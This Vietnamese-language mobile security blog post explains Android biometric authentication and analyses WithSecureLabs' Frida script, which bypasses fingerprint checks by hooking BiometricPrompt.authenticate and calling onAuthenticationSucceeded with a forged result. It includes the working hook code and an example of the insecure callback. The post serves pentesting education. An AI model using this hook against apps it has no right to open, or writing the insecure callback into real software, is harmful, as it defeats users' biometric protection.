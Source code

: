 ```yaml
---
title: "FINGERPRINT BYPASS"
layout: single
last_modified_at: 29-12-2023T16:08:30
categories:
  - Blog
tags:
  - Security Mobile
  - Hacking Mobile
  - Pentest Mobile

toc: true
toc_label: "Content Security"
toc_sticky: true
---
```


**Date created: Fri, 29-12-2023 08:30**

## <span class="text">Introduce</span><span class="terminal">&nbsp;</span>

Biometric authentication được thực hiện bằng cách sử dụng class `FingerprintManager` hoặc `BiometricPrompt` để quản lý cơ chế authentication và hộp thoại thông báo của ứng dụng yêu cầu người dùng authenticate.
Class `FingerprintManager` được giới thiệu trong API 23 chỉ hỗ trợ xác thực dấu vân tay và không dùng nữa kể từ API 28. Thay vào đó `BiometricPrompt` được phát hành và cách sử dụng cũng khá tương đồng với `FingerprintManager`.

## Biometric/Fingerprint authentication

Theo như tài liệu của Android, class `BiometricPrompt` có một phương thức rất quan trọng đó là `authenticate`.

```java
public void authenticate (BiometricPrompt.CryptoObject crypto, CancellationSignal cancel, Executor executor, BiometricPrompt.AuthenticationCallback callback)
```

Phương thức này sẽ khởi động phần cứng biometric, hiển thị hộp thoại do hệ thống cung cấp yêu cầu sinh trắc học của người dùng và bắt đầu quét để xác thực sinh trắc học. Phương thức này bao gồm các đối số(arguments) lần lượt là:

- [ `crypto`](https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.CryptoObject): Đối tượng này chứa tham chiếu tới entry trong keystore cần được mở khoá. Để triển khai xác thực sinh trắc học một cách an toàn, keystore key bên trong đối tượng `crypto` phải được sử dụng cho một số các hoạt động cryptographic quan trọng của ứng dụng.
- [`cancel`](https://developer.android.com/reference/android/os/CancellationSignal): Đối tượng này dùng để huỷ việc xác thực.
- [`executor`](https://developer.android.com/reference/java/util/concurrent/Executor): Executor này sẽ chịu trách nhiệm xử lý các sự kiện của callback.
- [`callback`](https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback): Đối tượng này là một `structure with callbacks` sẽ nhận các sự kiện xác thực được dispatch thông qua Executor.
  Trong đó hai đối số quan trọng mà cần chú ý dó là `crypto` và `callback` vì nó chịu trách nhiệm liên quan tới vấn đề xác thực của phương thức này.
  Tham số `BiometricPrompt.AuthenticationCallback` được sử dụng như một callback structure thực hiện các phương thức như là:
- [onAuthenticationSucceeded(BiometricPrompt.AuthenticationResult result)](<https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback.html#onAuthenticationSucceeded(android.hardware.biometrics.BiometricPrompt.AuthenticationResult)>)
- [onAuthenticationError](<https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback.html#onAuthenticationError(int,%20java.lang.CharSequence)>)()
- [onAuthenticationFailed](<https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback.html#onAuthenticationFailed()>)()
  Trong đó phương thức `onAuthenticationSucceeded` sẽ kích hoạt khi người dùng được hệ thống xác thực thành công. Phương thức mở khoá ứng dụng thường có sẵn bên trong cái phương thức `callback` này.
  Ý tưởng khai thác cho vấn đề này là thực hiện hooking vào process của ứng dụng và thực hiện gọi trực tiếp phương thức `onAuthenticationSucceded` từ đó ứng dụng sẽ được mở khoá ngay lập tức mà không cần cung cấp sinh trắc học hợp lệ.
  Việc triển khai của phương thức `onAuthenticationSucceded` có lỗ hổng thường sẽ tương tự như đoạn code sau:

```java
public void onAuthenticationSucceeded(FingerprintManager.AuthenticationResult result) {
// Hiển thị thông báo truy cập thành công
Toast.makeText(getActivity(), "Access granted",Toast.LENGTH_LONG).show();
// Phương thức truy cập có sẵn bên trong phương thức được gọi
accessGranted();
}
```

Ta có thể thấy một điều rằng đoạn code ở trên không hề sử dụng bất kỳ đối tượng `CryptoObject` nào được truyền vào `AuthenticationResult` thay vào đó chỉ giả xử rằng quá trình xác thực đã thành công vì phương thức `onAuthenticationSucceded` được gọi.

## Phân tích script dùng để bypass fingerprint-bypass của [WithSecureLabs](https://github.com/WithSecureLabs)

Như đã mô tả ở trên, hướng tiếp cận của script là thực hiện hook vào callback method `onAuthenticationSucceded` để bypass qua việc xác thực sinh trắc học dựa vào cơ chế cho phép truy cập mà không cần xem xét tới đối tượng `cryptoObject`.

```javascript
function getAuthResult(resultObj, cryptoInst) {
  try {
    var authenticationResultInst = resultObj.$new(cryptoInst, null, 0, false);
  } catch (error) {
    try {
      var authenticationResultInst = resultObj.$new(cryptoInst, null, 0);
    } catch (error) {
      try {
        var authenticationResultInst = resultObj.$new(cryptoInst, null);
      } catch (error) {
        try {
          var authenticationResultInst = resultObj.$new(cryptoInst, 0);
        } catch (error) {
          var authenticationResultInst = resultObj.$new(cryptoInst);
        }
      }
    }
  }
  console.log(
    "cryptoInst:, " + cryptoInst + " class: " + cryptoInst.$className
  );
  return authenticationResultInst;
}
```

Script trước tiên sẽ định nghĩa ra hàm `getAuthResult` nhận vào hai tham số (`resultObj` và `cryptoInst`). Hàm này sẽ cố gắng tạo ra một thể hiện(instance) `AuthenticationResult` của class `android.hardware.biometrics.BiometricPrompt$AuthenticationResult` bằng cách thử kết hợp nhiều đối số của phương thức khởi tạo hàm(constructor). Mục đích là để xử lý các constructor signatures khác nhau có thể có trong các phiên bản hoặc các triển khai(implementations) Android khác nhau.

```javascript
function getBiometricPromptAuthResult() {
  var sweet_cipher = null;
  var cryptoObj = Java.use(
    "android.hardware.biometrics.BiometricPrompt$CryptoObject"
  );
  var cryptoInst = cryptoObj.$new(sweet_cipher);
  var authenticationResultObj = Java.use(
    "android.hardware.biometrics.BiometricPrompt$AuthenticationResult"
  );
  var authenticationResultInst = getAuthResult(
    authenticationResultObj,
    cryptoInst
  );
  return authenticationResultInst;
}
```

Tiếp theo, script định nghĩa một hàm tên là `getBiometricPromptAuthResult`, để tạo ra một thể hiện của `BiometricPrompt$AuthenticationResult`. Đồng thời cũng tạo ra một thể hiện mới của `BiometricPrompt$CryptoObject` với giá trị `Cipher` bằng `null`. Sau đó gọi hàm `getAuthResult` truyền vào hai tham số là `authenticationResultObj` và `cryptoInst` mới được tạo trước đó để lấy được giá trị cuối cùng của thể hiện(instance) `AuthenticationResult`.

```javascript
function hookBiometricPrompt_authenticate() {
  var biometricPrompt = Java.use("android.hardware.biometrics.BiometricPrompt")[
    "authenticate"
  ].overload(
    "android.os.CancellationSignal",
    "java.util.concurrent.Executor",
    "android.hardware.biometrics.BiometricPrompt$AuthenticationCallback"
  );

  console.log("Hooking BiometricPrompt.authenticate()...");

  biometricPrompt.implementation = function (
    cancellationSignal,
    executor,
    callback
  ) {
    console.log(
      "[BiometricPrompt.BiometricPrompt()]: cancellationSignal: " +
        cancellationSignal +
        ", executor: " +
        ", callback: " +
        callback
    );

    var authenticationResultInst = getBiometricPromptAuthResult();

    callback.onAuthenticationSucceeded(authenticationResultInst);
  };
}
```

Hàm `hookBiometricPrompt_authenticate`, được định nghĩa để thực hiện hook vào phương thức `authenticate` của class `android.hardware.biometrics.BiometricPrompt` có đối số lần lượt là `('android.os.CancellationSignal', 'java.util.concurrent.Executor', 'android.hardware.biometrics.BiometricPrompt$AuthenticationCallback')`. Tiếp đó thực hiện in ra các tham số của hàm `biometricPrompt.authenticate` đó và gọi hàm `getBiometricPromptAuthResult` đã được định nghĩa ở trên, lưu vào biến `authenticationResultInst`. Cuối cùng là gọi phương thức callback `onAuthenticationSucceeded` và truyền vào biến `authenticationResultInst`.

```
function hookBiometricPrompt_authenticate2() {

    var biometricPrompt = Java.use('android.hardware.biometrics.BiometricPrompt')['authenticate'].overload('android.hardware.biometrics.BiometricPrompt$CryptoObject', 'android.os.CancellationSignal', 'java.util.concurrent.Executor', 'android.hardware.biometrics.BiometricPrompt$AuthenticationCallback');

    console.log("Hooking BiometricPrompt.authenticate2()...");

    biometricPrompt.implementation = function (crypto, cancellationSignal, executor, callback) {

        console.log("[BiometricPrompt.BiometricPrompt2()]: crypto:" + crypto + ", cancellationSignal: " + cancellationSignal + ", executor: " + ", callback: " + callback);

        var authenticationResultInst = getBiometricPromptAuthResult();

        callback.onAuthenticationSucceeded(authenticationResultInst);

    }

}
```

Hàm `hookBiometricPrompt_authenticate2`, cũng tương tự nhưng đối số sẽ bao gồm thêm `('android.hardware.biometrics.BiometricPrompt$CryptoObject')`. Đối tượng này như đã được trình bày ở trên sẽ chịu trách nhiệm về các vấn đề liên quan đến việc tham chiếu tới keystore entry của ứng dụng.

## Conclusion

Bên trên là bài báo cáo chi tiết về nguyên do dẫn đến lỗi `Biometric authentication` này cũng như luồng thực thi của script frida fingerprint bypass của WithSecureLabs.

---

References:

- [How secure is your android keystore authentication](https://labs.withsecure.com/publications/how-secure-is-your-android-keystore-authentication)

---
